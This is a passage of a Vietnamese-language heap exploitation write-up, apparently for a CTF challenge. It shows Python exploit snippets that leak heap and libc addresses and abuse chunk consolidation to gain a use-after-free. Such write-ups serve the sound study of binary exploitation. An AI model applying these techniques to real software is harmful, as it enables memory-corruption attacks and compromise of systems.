 ### Leak heap, leak libc
- Cách làm như ở trên trình bày (mình chọn cách 2)

```python
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
```

- Leak libc
```python
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))
```

### Consolidation (gộp)
- Tính năng này gộp các chunk liền kề với nhau đã free (không áp dụng cho tcache, fastbin)
- Bằng tính năng trên và việc chương trình không xoá con trỏ sau khi free, ta có ý tưởng sau
```
0x123400 (size 0x100)
0x123500 (size 0x100)
```
- Khi ta free 2 chunk vào unsorted bin và malloc một chunk 0x200
```
0x123400 (con trỏ)
0x123500 (con trỏ)
0x123400 (0x200)
```
- Nghĩa là có thể UAF chunk `0x123500`
- Đầu tiên ta làm full chunk tcache, sau đó tạo 3 chunk 7 8 9 và một size lớn 0x500 và một chunk khác đệm ở dưới tránh việc free chunk 0x500 nó bị gộp với top chunk
```python
for i in range(0,8):
        write(i, 0x100-0x10, b"a") # full tcache
write(7, 0x100-0x10, "a")
write(8, 0x100-0x10, "a")
write(9, 0x100-0x10, "a")
write(10, 0x500-0x10, "a")
write(11, 0x100+0xa0, "a")
for i in range(0, 7):
        free(i)
```
- Do là khi chunk 7 8 9 10 cạnh nhau vào trong unsorted bin nên bị gộp với nhau
```python
free(7)
free(8)
free(9)
free(10)
```
